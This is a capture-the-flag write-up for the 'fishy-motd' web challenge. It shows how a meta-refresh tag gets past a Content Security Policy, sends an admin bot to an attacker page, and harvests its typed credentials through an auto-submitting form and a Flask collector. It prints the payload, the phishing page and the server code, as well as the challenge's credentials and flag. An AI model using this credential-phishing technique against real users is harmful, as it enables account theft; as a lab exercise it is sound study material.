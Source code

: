 
# fishy-motd (web, 263 points, 41 solves)

>I just created a tool to deploy messages to server admins in our company. They *love* clicking on them too!
`http://ctf.b01lers.com:5110`

## Overview

We're given a service that allow us to create custom [MOTDs](https://en.wikipedia.org/wiki/Message_of_the_day) which is going to be used in a login page.

We're also able to see the preview of the login page with our custom MOTD in it. Of course, we can deploy our MOTD and show it to admins.

This is a big hint, we can immediately tell that we need to do [XSS](https://en.wikipedia.org/wiki/Cross-site_scripting).

## Analysis

Let's start by taking a look at the main page.

![main-page](imgs/main-page.png)

Let's try typing some HTML tags:

```html
<h1> yes </h1>
<img src="#" onerror="alert(1)">
<script> alert(1); </script>
<a href="https://example.com">Blablabla</a>
```

The login page will look like this:

![login-page](imgs/login-page-1.png)

Something is obviously wrong: our `alert` didn't pop. There's definitely something denying the execution of our javascript code... Something called [Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) 😭

>Content Security Policy (CSP) is an added layer of security that helps to detect and mitigate certain types of attacks, including Cross-Site Scripting (XSS) and data injection attacks. These attacks are used for everything from data theft, to site defacement, to malware distribution.

It's possible to specify the policy using HTTP headers or the `<meta>` tag.
We can see in the login page HTML the meta tag which contains the Content-Security-Policy:

```html
<meta http-equiv="Content-Security-Policy" content="default-src 'none'; style-src 'self'; form-action 'self'" />
```

In our case, the CSP consists of three directives:

- `default-src 'none'`, this directive serves as a fallback for the other CSP fetch directives.
- `style-src 'self'`, this directive specifies valid sources for stylesheets. In our case, the only valid source is `http://ctf.b01lers.com:5110`
- `form-action 'self'`, this directive restricts the URLs which can be used as the target of form submissions from a given context. In our case, the only valid target of form submissions is `http://ctf.b01lers.com:5110`.

So, here's what we're unable to do:

- Execute any javascript code
- Use custom CSS
- Submit data to external servers from the login page

But... How it's possible to redirect the admin without executing any javascript code?
Luckly for us, the `meta` tag allows us to do that.
Let's see if it works by typing the following line:

```html
<meta http-equiv="Refresh" content="0; url='https://google.com/'" />
```

![xss-video](videos/preview-xss-1.gif)

**YES!** Now we're able to redirect the admin anywhere we want.

## Let the games begin

Before doing 🐟fishy🐟 things, we need to understand what the admin does on the login page.
We can see inside the `index.js` file what the bot is going to do once on the login page.

```javascript
const adminBot = async (id) => {
    const browser = await puppeteer.launch({
        headless: true, // Uncomment below if the sandbox is causing issues
        // args: ['--no-sandbox', '--disable-setuid-sandbox', '--single-process']
    })
    const page = await browser.newPage();
    await page.setViewport({ width: 800, height: 600 });
    const url = `http://localhost:${port}/login?motd=${id}`;
    await page.goto(url);
    await page.mouse.click(10, 10);
    await new Promise(r => setTimeout(r, 1000));
    try {
        if (url !== await page.evaluate(() => window.location.href)) {
            return { error: "Hey! Something's fishy here!" };
        }
    } catch (err) {
        return { error: "Hey! Something's fishy here!" };
    }
    await new Promise(r => setTimeout(r, 5000));
    await page.mouse.click(420, 280);
    await page.keyboard.type(user);
    await page.mouse.click(420, 320);
    await page.keyboard.type(pass);
    await page.mouse.click(420, 360);
    await new Promise(r => setTimeout(r, 1000));
    await browser.close();
    messages[id] = undefined;
    return { error: null };
}
```

Ok, let's break down what the bot does:

- Visits `http://localhost:${port}/login?motd=${id}` using the specified id
- Clicks to position (10, 10) (maybe it will click on the MOTD, idk)
- Waits for one second
- Checks if the current page is the same as the page with the MOTD
- Waits for another five seconds
- Clicks in the position of the username field and writes the admin's username
- Clicks in the position of the password field and writes the admin's password
- Waits for one second

Luckly for us, the `meta` tag allows us to specify the redirect delay. Our final MOTD will look like this:

```html
<meta http-equiv="Refresh" content="1.1; url='https://my.webhook/'" />
```

Where `1.1` indicates the redirect delay (in seconds).

## Solution

Now let's create our server, which will collect the admin credentials. The dumbest way to accomplish this, is using a really wide textarea, and then redirect the admin after a bunch of seconds.

Our main page will look like this:

```html
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta charset="UTF-8" />
        <meta http-equiv="X-UA-Compatible" content="IE=edge" />
        <meta name="viewport" content="width=device-width, initial-scale=1.0" />
        <title>lol</title>
    </head>
    <body>
        <form action="/lol" method="POST">
            <textarea name="credentials" style="min-width: 2000px; min-height: 1000px;"> </textarea>
        </form>
        <script>
            setTimeout(function () {
                document.getElementsByTagName("form")[0].submit();
            }, 4500);
        </script>
    </body>
</html>
```

We're going to use the Flask library, which will handle the POST requests for us.

```python
from flask import Flask, request, render_template

app = Flask(__name__)


@app.route("/lol", methods=["POST"])
def lol():
    credentials = request.form.get("credentials")
    print(f"{credentials = }")

    return "lol"


@app.route("/")
def index():
    return render_template("index.html")


app.run("0.0.0.0", 1337)
```

We can use [ngrok](https://ngrok.com/) to make our site accessible to everyone.

Finally, we can send our payload to the admin.

![final-xss-result](imgs/final-xss-result.png)

We can distinguish the username from the password easily, the correct credentials will be:

- username: **n01_5y54dm1n**
- password: **7zzHuXRAp)uj@(qO@Zi0**

If we use these credentials to log in, we get the flag!

`flag: bctf{ph15h1ng_reel_w1th_0n3_e}`
